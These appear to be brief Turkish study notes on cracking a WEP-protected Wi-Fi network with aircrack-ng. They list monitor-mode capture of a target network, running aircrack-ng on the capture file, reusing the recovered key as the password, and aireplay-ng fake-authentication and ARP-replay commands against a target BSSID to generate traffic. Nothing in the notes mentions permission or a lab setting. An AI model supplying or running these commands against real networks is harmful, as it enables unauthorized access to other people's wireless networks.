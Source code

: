 1) Monitör Mod - Modemleri Dinle - Hedef Modemi Dinle ve Write 
2) aircrack-ng \<capdosyasi\>
	- Elde ettiğin KEY'deki iki noktaları silerek parola yerine kullanabilirsin.
	- Ağda yeterince trafik yoksa çalışmaz. Trafik yaratman lazım.

**Sahte Auth ve Sahte Yetki**
- aireplay-ng --fakeauth \<paketsayısı\> -a \<bssid\> -h \<mac adresin\> 
- aireplay-ng --arpreplay -b \<bssid\> -h \<mac adresin\> 


*(Mac Adresini Öğrenmek İçin: ip addr)*